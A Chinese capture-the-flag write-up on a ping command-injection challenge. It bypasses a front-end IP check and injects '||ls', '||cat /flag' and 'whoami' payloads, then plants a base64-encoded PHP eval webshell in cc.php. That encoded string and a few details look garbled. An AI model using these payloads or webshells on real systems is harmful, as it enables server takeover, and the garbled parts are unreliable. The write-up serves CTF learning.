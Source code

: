- **一题多解思考**
![image](https://github.com/user-attachments/assets/03797ba0-f8fa-42f6-8182-ea9f499873e0)
> 看题目

![image](https://github.com/user-attachments/assets/6b58c0e7-1480-43c2-b377-783947e75e52)
### 尝试随便ping一个值
> [!TIP]
比如本地回环地址127.0.01

![image](https://github.com/user-attachments/assets/99d51359-2c5f-4baa-a7ea-8c8bd542d6a1)
> 果然不行呢，有验证，查了一下资料叫做前端验证

![image](https://github.com/user-attachments/assets/64529f4f-94f7-470b-a2b3-27d6ccb49983)
> [!TIP]
采用的是JavaScript的方式：

### **JavaScript功能**
**IP地址验证**：`check_ip()` 函数用于验证用户输入的IP地址是否符合IPv4格式。它使用正则表达式 `/^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/` 来匹配有效的IPv4地址。如果输入的IP地址不符合格式，函数会弹出警告并返回`false`，阻止表单提交。
所以可以考虑禁用JavaScript
### 思路一
> [!NOTE]
禁用JavaScript

![image](https://github.com/user-attachments/assets/749ec554-4084-4ae2-9060-b203fb04f239)
![image](https://github.com/user-attachments/assets/48efa4f3-1d5b-401b-9658-6bc89a92812d)
然后再输入刚刚尝试的地址
得到这个，？**好像没啥用**
![image](https://github.com/user-attachments/assets/105b16f2-bfe9-460a-8d7a-5b549971ead0)
查看一下文件
> **输入127.0.01||ls/**

![image](https://github.com/user-attachments/assets/a6a148ed-6b5a-4e6f-a3a7-e23220e51b59)
出来了
> `flag=NSSCTF{cae6837d-0912-4b2b-bbd8-0ed6e1695c9e}`
![image](https://github.com/user-attachments/assets/24d92330-4d28-413a-9b81-d7bd32677dd4)
### 思路二
> [!TIP]
使用hackbar发包

不知道怎么回事我的浏览器的hackbar安装的问题
审计源码
```
<form action="" method="posT" onsubmit="return check_ip()">
<input id="command" name="command" type="text" placeholder="Enter an IP address"/>
<input name="ping" type="submit" value="Ping"/>
</form>
```
> [!NOTE]
同样是发送comment=127.0.01||ls/(**当然我的插件出问题了就没有演示，图片上使用的1.1.1.1也可以**)
然后发现flag
再发送comment=127.0.01||cat/flag来读取flag的值
### 思路三
这个本来放在思路四的，排版排上来了，这个有点没明白
> [!TIP]
**Hook技术绕过前端验证**
使用JavaScript Hook
javascript
```
check_ip = function(){}
```
**Hook `check_ip` 函数**：通过在浏览器的开发者工具（如Chrome的控制台）中重新定义 `check_ip` 函数，将其替换为一个空函数。这样，无论用户输入什么内容，`check_ip` 函数都会返回 `true`，从而绕过前端的IP地址验证。
![image](https://github.com/user-attachments/assets/908dcaa0-3ba6-4851-a04b-85d1a5b2c4d6)
### 思路四
学习师傅的思路
> [!TIP]
采用burpsuite抓包

#### **命令注入攻击**

- **原始请求**：假设原始请求中有一个参数 `command`，其值为 `127.0.0.1`，表示要执行的命令。
- **修改请求**：攻击者通过BurpSuite修改请求，将 `command` 参数的值改为 `127.0.0.1|whoami`，这里的 `|` 是管道符，用于将前一个命令的输出作为后一个命令的输入。
- **执行命令**：后端接收到修改后的请求后，会执行 `127.0.0.1|whoami`，其中 `whoami` 是一个Linux命令，用于显示当前用户的用户名。
- **返回结果**：后端返回执行结果 `www-data`，表示当前用户是 `www-data`。

#### **进一步利用**

- **查找文件**：攻击者继续修改请求，将 `command` 参数的值改为 `127.0.0.x||find / -name flag*`，这里的 `||` 表示如果前一个命令失败，则执行后一个命令。`find / -name flag*` 用于在根目录下查找文件名以 `flag` 开头的文件。
- **返回结果**：后端返回 `/flag`，表示找到了一个名为 `flag` 的文件。
- **读取文件**：攻击者再次修改请求，将 `command` 参数的值改为 `127.0.0.x||cat /flag`，这里的 `cat /flag` 用于读取 `flag` 文件的内容。
- **返回结果**：后端返回 `flag=NSSCTF(e3c1168b-4204-4875-a84b-bacdca94b744)`，表示成功读取了 `flag` 文件的内容。

#### **写入WebShell**

- **WebShell**：WebShell 是一种恶意脚本，通常以PHP、ASP等语言编写，允许攻击者在目标服务器上执行任意命令。
- **编码WebShell**：攻击者编写了一个简单的PHP WebShell，内容为 `<?php eval($_POST[cc]);?>`，并将其Base64编码为 `PD9waiMgZXZhbcgkXIBPUIRbYZNdkTs/Pg==`。
- **写入文件**：攻击者通过修改请求，将 `command` 参数的值改为 `127.0.0.x||echo "PD9waiMgZXZhbcgkXIBPUIRbYZNdkTs/Pg==" | base64 -d >cc.php`，这里的 `echo ... | base64 -d >cc.php` 用于将Base64编码的内容解码并写入 `cc.php` 文件。
- **成功写入**：后端执行命令后，成功将WebShell写入 `cc.php` 文件，攻击者现在可以通过访问 `cc.php` 并发送POST请求来执行任意PHP代码。

## 总结

- 考点：前端禁用&命令执行
  本题目是经典PING命令RCE题目，采用前端验证的方法阻止危险命令，所以解法也很多样。
- 学会了使用多种工具来辅助自己绕过前段验证









